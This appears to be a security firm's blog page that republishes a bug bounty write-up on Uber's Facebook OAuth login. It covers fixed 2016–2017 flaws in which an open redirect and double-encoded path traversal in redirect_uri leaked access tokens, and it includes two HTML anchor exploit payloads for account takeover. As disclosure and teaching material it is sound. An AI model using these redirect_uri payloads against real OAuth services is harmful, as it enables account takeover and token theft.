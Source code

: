 ```yaml
---
layout: page
title: "Uber - Navigating the Complexities of redirect_uri: A Bug Bounty Journey"
date: 2024-06-14 11:21:29
description: At Nova Security, we continuously analyze and assess the cybersecurity landscapes of diverse industries, aiming to uncover potential vulnerabilities and provide strategic solutions.
thumbnail: "../../assets/images/blogs/blog_image_2.webp"
author: Ron Chan
tags: ['Uber', 'Bug Bounty', 'Cybersecurity']
categories: [Software, Innovation]
bodyClass: blog-single
---
```


### Introduction
In my bug hunting endeavors, I rely on manual techniques rather than automation tools like sqlmap, sublist3r, or jsparser. My setup includes a Burp Pro license on my MacBook Pro and a VPS server for occasional brute-forcing of endpoints to create proof of concepts. This is why I don't often share tools or methodologies—because I don't use them. Instead, my hobby involves scrutinizing 15,000 requests daily through Burp, focusing on sites like uber.com, uberinternal.com, and yahoo.com. I don't chase after reflective or stored XSS unless they're obvious. I test where the site leads me, especially examining variations of redirect_uri in OAuth implementations. My findings are often irregular and spontaneous, which may answer some of the questions I receive from various channels.

### A Lesser-Known Facebook redirect_uri Trick
Today, I'm sharing a lesser-known Facebook redirect_uri trick I discovered. Back in 2016, Uber allowed Facebook login on both login.uber.com and auth.uber.com. The login flow looked like this:

- `https://facebook.com/xxxx?client_id=xxxxxx&redirect_uri=https%3a%2f%2fauth.uber.com%2flogin%3fnext_url=https%3A%2F%2Frush.uber.com%2Flogin%2F&state=m7QWxxPRNII4VGsCSog0xLJ2KF7e8ynpC2c_OAKkQQk%3D`
- `https://auth.uber.com/login?next_url=https%3A%2F%2Frush.uber.com%2Flogin%2F&state=m7QWxxPRNII4VGsCSog0xLJ2KF7e8ynpC2c_OAKkQQk%3D#access_token=xxxx`
- `https://rush.uber.com/login?&#access_token=xxxx`


At first glance, the issue is not immediately obvious, but upon closer inspection, the login endpoint allows further redirection to *.uber.com. Due to browser security, a 302 location header redirect preserves anything after the hash in the URL. This means that if you find an open redirect in the next_url parameter and redirect the user to *.uber.com and then to an attacker-controlled site, you can steal the access token in the URL.

### The Hidden Danger in Open Redirects
Although Uber no longer accepts open redirect submissions, finding one isn't difficult. One open redirect that still works today is https://login.uber.com/logout, which redirects based on the Referer header.

`https://login.uber.com/logout`

### Exploiting Redirects for Account Takeover
Using this information, you can figure out an exploit to achieve Facebook account takeover (ATO) in Uber. Here's my exploit:

Here is my exploit.

`<a href="https://facebook.com/xxxx?client_id=xxxxxx&redirect_uri=https%3a%2f%2fauth.uber.com%2flogin%3fnext_url=https%3A%2F%2Flogin.uber.com%2Flogout%2F&state=state">Click to leak</a>alert(location.hash)`

### Revisiting Uber's OAuth Security in 2017
This was reported in late 2016 and promptly fixed. By early 2017, I discovered that Uber's Facebook login still hosted two whitelisted redirect_uris: https://auth.uber.com/login and https://login.uber.com/login. Although they patched the open redirect bug, I found another way to exploit it.

Facebook's redirect_uri accepts double URL-encoded slashes. For example:
`redirect_uri=https%3a%2f%2fwww.example.com%2fdirectory%252f..%252f..%252fescaped` -> PASSED!

Upon decoding in the 302 response, the Location header becomes: `https://www.example.com/directory%2f..%2f..%2fescaped`

Uber's server accepted this and normalized the directory on the server side. Thus, combining Uber's server-side normalization behavior and Facebook's acceptance of double URL-encoded slashes, I found another way to take over Uber's Facebook account.

### Combining Server Normalization with Redirects
Hence, combining Uber’s server side normalisation behaviour and Facebook’s acceptance of double url encoded slash, we have another way to takeover Uber’s FB account.

`<a href="https://facebook.com/xxxx?client_id=xxxxxx&redirect_uri=https%3a%2f%2flogin.uber.com%2flogin%252f..%252f..%252flogout&state=state">Click to leak</a>alert(location.hash)`

This was eventually fixed by removing login.uber.com as a whitelisted redirect_uri.

## Conclusion: Enhancing Your OAuth Security with Nova Security
OAuth security can be incredibly complex, as illustrated by the intricate vulnerabilities and exploits found in Uber's implementation. Ensuring your OAuth application is secure requires a thorough understanding of potential pitfalls and a keen eye for detail. This is where Nova Security comes in.
At Nova Security, we specialize in identifying and mitigating security risks in OAuth implementations. Our team of experts can meticulously examine your website to uncover vulnerabilities that might otherwise go unnoticed. By leveraging our expertise, you can safeguard your application against unauthorized access, data breaches, and other security threats.

Don't leave your OAuth security to chance. Contact Nova Security today to fortify your application's defenses and ensure peace of mind. Reach out to us through our website or give us a call to schedule a comprehensive security assessment.